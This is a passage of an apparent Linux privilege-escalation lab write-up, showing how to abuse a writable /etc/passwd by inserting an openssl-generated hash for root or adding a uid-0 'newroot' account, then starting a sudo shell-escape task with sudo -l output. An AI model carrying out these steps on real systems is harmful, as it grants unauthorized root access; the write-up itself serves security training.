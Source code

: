 The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

Note that the /etc/passwd file is world-writable:

```jsx
ls -l /etc/passwd
```

Generate a new password hash with a password of your choice:

```jsx
openssl passwd newpasswordhere
```

Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

```
su root
```

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

Now switch to the newroot user, using the new password:

```jsx
su newroot
```

### Run the "id" command as the newroot user. What is the result?

```jsx
uid=0(root) gid=0(root) groups=0(root)
```

# Task 6 Sudo - Shell Escape Sequences

---

> [https://gtfobins.github.io/](https://gtfobins.github.io/) to check if a program can be used it to elevate privileges, usually via an escape sequence.

```jsx
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$
```
